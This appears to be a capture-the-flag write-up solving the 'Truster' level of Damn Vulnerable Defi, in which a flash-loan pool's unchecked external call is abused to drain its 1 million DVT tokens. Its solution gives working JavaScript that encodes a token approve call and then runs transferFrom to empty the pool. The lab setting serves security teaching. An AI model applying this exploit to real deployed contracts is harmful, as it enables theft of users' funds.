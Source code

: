 More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/truster)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v3.0.0/test/truster/truster.challenge.js)
___
## Solution:

We can see, that it is impossible to steal tokens from pool via `flashLoan`, but we can run any function from any contract we want. So let's approve player call token's function `transferFrom` 
And after it we will be able to steal tokens. 

```js
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);

await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address, TOKENS_IN_POOL);
```
